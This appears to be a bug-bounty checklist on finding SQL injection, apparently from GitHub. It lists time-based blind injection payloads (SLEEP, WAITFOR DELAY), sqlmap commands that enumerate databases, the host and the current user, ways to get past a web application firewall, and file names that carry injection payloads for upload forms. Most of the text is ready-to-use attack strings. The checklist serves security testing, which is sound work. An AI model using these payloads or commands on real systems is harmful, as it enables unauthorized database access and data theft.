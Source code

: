 ## How to find SQL injectiosn vulnerability?

## 1) Logical Operation
One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.
For example: if the GET parameter `?username=Peter` returns the same content as `?username=Peter'` or `?username=Peter+'1'='1` then, you found a SQL injection.

## 2) Time Based SQL Injection
Most relative place for inject SQL payloads as [POST Request] are in Login page (username parameter), Forget password page (username parameter), Singup Page (firstname and last name) 


Payloads:
```
orwa' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
(SlEeP%09(14-(5-2)))
')) or sleep(5)=' 
' WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'-- 
);waitfor delay '0:0:5'-- 
';waitfor delay '0:0:5'-- 
";waitfor delay '0:0:5'-- 
');waitfor delay '0:0:5'-- 
");waitfor delay '0:0:5'-- 
));waitfor delay '0:0:5'-- 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z%20=%3E
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
```

![image](https://user-images.githubusercontent.com/63053441/155585150-722a2ec2-787d-42bd-85d7-30c6401f8031.png)

### How To Test?

 1) Use this [wordlist](https://raw.githubusercontent.com/0xmaximus/Galaxy-Bugbounty-Checklist/main/SQL%20injection/SQL.txt) with intruder and inject all payloads in relative parameters and headers(User-Agent, Cookies, Referer, x-requested-with and ...)  
 2) After you got DELAY, save request in txt file and use sqlmap for confirm and exploit vulnerability

```
sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
sqlmap -r request.txt -p email/username --force-ssl -level 5 --risk 3 --dbms="MySQL" --test-filter="MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
```

Sometimes you cant exploits because most modern web apps use WAF & user input validation before execute it so you can try with:
- change request form POST to GET or in reverse
- Use `--random-agent`


## 3) File Uploaders SQLi
Save file with this names and upload it in site
```
--sleep(15).png
--sleep(6*3).png
--sleep(25).png
--sleep(5*7).png
pic.png;waitfor delay '0:0:5'-- 
```

Refrences:
https://twitter.com/GodfatherOrwa
